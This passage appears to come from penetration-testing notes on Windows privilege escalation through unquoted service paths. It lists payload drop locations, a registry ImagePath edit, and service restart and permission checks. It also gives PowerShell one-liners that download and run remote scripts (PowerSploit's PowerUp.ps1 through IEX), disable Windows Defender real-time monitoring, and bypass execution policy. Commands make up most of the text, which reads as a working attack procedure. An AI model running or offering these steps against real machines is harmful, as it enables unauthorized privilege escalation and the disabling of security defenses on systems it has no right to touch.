


2. Check if we have enough privileges
2. Manually check Unquoted path for a specific service
We can use the sc (Service Control) command with the “qc” (Show Config) option to query a specific service, and manually check for an unquoted path
C:\Users\danie\Desktop> sc qc <service>
In this case we have different possibilities, we can drop our payload as:
C:\Program.exe
C:\Program Files\Alcohol.exe
C:\Program Files\Alcohol Soft\Alcohol.exe
3. If we have access locally to the remote machine
We can find and modify the path, by adding and removing the quotes, under:
HKLM\SYSTEM\CurrentControlSet\Services\<service>\ImagePath
example:
HKLM\SYSTEM\CurrentControlSet\Services\<AxAutoMntSrv>\ImagePath

4. We need to know if we have enough privileges to restart the service <------------
If we can start and stop the service we have enough privileges to manipulate the service and we can continue with our exploitation
◇ AccessChk:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\Accesschk.exe /accepteula -ucqv $env:username AxAutoMntSrv";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";
To stop and start a service we need one of the following:
- SERVICE_ALL_ACCESS
- SERVICE_START and SERVICE_STOP
◇ sc:
C:\Users\danie\Desktop> sc start <service>
C:\Users\danie\Desktop> sc stop <service>
C:\Users\danie\Desktop> sc stop <service>


◇ powerup.ps1:
PS> Set-MpPreference -DisableRealtimeMonitoring $true #Disable Windows Defender
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 '); Get-UnquotedService -Verbose
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 '); Get-UnquotedService -Verbose

◇ ALTERNATIVE:
C:\> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Get-UnquotedService -Verbose}"
5. Check write permissions on the directory
Check for write permissions on each directory in the existing binary path:
▪ C:\
▪ C:\Program Files\
▪ C:\Program Files\Unquoted Path Service
▪ C:\Program Files\Unquoted Path Service\Common Files
Until we do not find a path where we have write permissions
◇ icacls:
C:\Program Files\Alcohol Soft> icacls "C:\Program Files (x86)\Alcohol Soft"

If the SID BUILTIN\Users or Everyone has Modify (M) or Full Control(F) permissions on the directory we can go ahead
To check the meaning of the different SID: https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows
◇ AccessChk:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\Accesschk.exe /accepteula -uwdq 'C:\Program Files (x86)\Alcohol Soft'";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";